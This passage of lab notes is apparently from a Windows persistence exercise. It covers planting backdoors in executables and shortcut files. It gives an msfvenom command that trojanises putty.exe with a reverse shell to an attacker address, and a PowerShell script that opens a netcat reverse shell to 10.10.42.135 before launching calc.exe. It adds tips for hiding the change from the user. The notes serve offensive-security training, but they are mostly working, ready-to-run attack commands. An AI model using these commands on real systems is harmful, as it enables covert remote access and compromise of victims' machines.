 		- From that point, we could download the executable to our attacker's machine and modify it to run any payload we wanted.

#### Note: Thorough guide for this is found at "MalDev Essentials Backdooring" notes.

- You can easily plant a payload of your preference in any `.exe` file with `msfvenom`.
- The binary will still work as usual but execute an additional payload silently by adding an extra thread in your binary.
- To create a backdoored `putty.exe` , we can use the following command:
`$ msfvenom -a x64 --platform windows -x putty.exe -k -p windows/x64/shell_reverse_tcp lhost=ATTACKER_IP lport=4444 -b "\x00" -f exe -o puttyX.exe`

	- The resulting "puttyX.exe" will execute a reverse_tcp meterpreter payload without the user noticing it.
	- While this method is good enough to establish persistence, let's look at sneakier techniques.




### Shortcut Files
- If we don't want to alter the executable, we can always **tamper with the shortcut file itself**.

		- Instead of pointing directly to the expected executable, we can change it to point to a script that will run a backdoor and then execute the usual program normally.

- For this task, let's check the shortcut to `calc` on the Administrator's desktop.
- `Right click on it` > `Press Properties`:

![](/assets/img/Pasted image 20230107175328.png)

	- The file location is at C:\Windows\System32

- Before hijacking the shortcut's target, let's create a simple PowerShell script in `C:\Windows\System32` or any other sneaky location.

		- Note that C:\Windows\System32 is NOT normally writable but since we initially have the Administrator's account, creating another file in this directory is trivial.

- The script will execute a `reverse shell` and then run **calc.exe** from the original location on the shortcut's properties:

```powershell
Start-Process -NoNewWindow "c:\tools\nc64.exe" "-e cmd.exe 10.10.42.135 4445"
C:\Windows\System32\calc.exe
```

	- Use powershell ISE for this to write on:

![](/assets/img/Pasted image 20230107180201.png)

- Finally, we'll `change the shortcut` to point to our script.
- Notice that the shortcut's icon might be automatically adjusted while doing so.
- Be sure to point the icon back to the original executable `so that no visible changes appear to the user`.

<u>After changing the target</u>:
